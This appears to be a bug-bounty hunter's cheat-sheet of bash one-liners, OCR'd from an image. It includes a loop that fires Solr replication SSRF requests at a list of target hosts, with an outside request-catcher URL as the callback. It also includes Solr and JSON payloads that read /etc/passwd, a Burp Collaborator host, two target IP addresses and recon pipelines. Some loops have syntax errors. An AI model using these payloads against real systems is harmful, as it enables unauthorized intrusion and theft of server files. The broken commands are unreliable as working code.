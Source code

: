 





cat targets.txt | while read host do;do curl $host/solr/%7Bcore%7D/replication/?command=fetchindex&masterUrl=https://bugbounty.requestcatcher.com/ssrf | echo "Check SSRF resquest";done 







173.230.153.163
123.59.120.95



/solr/%7Bcore%7D/replication/?command=fetchindex&masterUrl=https://bugbounty.requestcatcher.com/ssrf

/solr/db/replication\?command=fetchindex\&masterUrl=https://bugbounty.requestcatcher.com/ssrf




/solr/{{collection}}/debug/dump?stream.url=file:///etc/passwd&param=ContentStream


gwgxdz2uwh59jeqjfi3697fe65cv0k.burpcollaborator.net



var={\"body\":{\"file\":\"file:///etc/passwd\"}}"
var={"body":{"file":"file:///etc/passwd"}}




Nuclei Tech detect :
cat nuclei.txt | cut -d ' ' -f3 | sed 's/\[//g' | sed 's/\]//g' | sed 's/tech-detect://g' | sort -u | xargs -n1 -I{} sh -c 'cat nuclei.txt | grep {} | tee -a {}.txt'







xargs -I % python3 ~/Tools/ParamSpider/paramspider.py -l high -	o ./spidering/%/% -d % ;



wget "https://chaos-data.projectdiscovery.io/index.json" && cat index.json | grep "URL" | sed 's/"URL": "//;s/",//' | while read host do;do wget "$host";done && for i in `ls -1 | grep .zip$`; do unzip $i; done && rm *.zip && cat *.txt >> alltargets.txt




wget "https://chaos-data.projectdiscovery.io/index.json" && cat index.json | grep "URL" | sed 's/"URL": "//;s/",//' | xargs -I % wget %; && for i in `ls -1 | grep .zip$`; do unzip $i; done && rm *.zip && cat *.txt | tee -a /%/%;


Bash Udemy:


1. commands videos
2. awk, sed, grep , qsreplace, cut , egrep (x5)
3. Scripts for vulns - CORS, OR, LFI , XSS, SQLi , SSTI ,
4. Subdomain Enum , JS Files, URLs extractor 
5. GF Patterns
6. ASN to IP , Status Codes
7. Fuzzing with Bash 
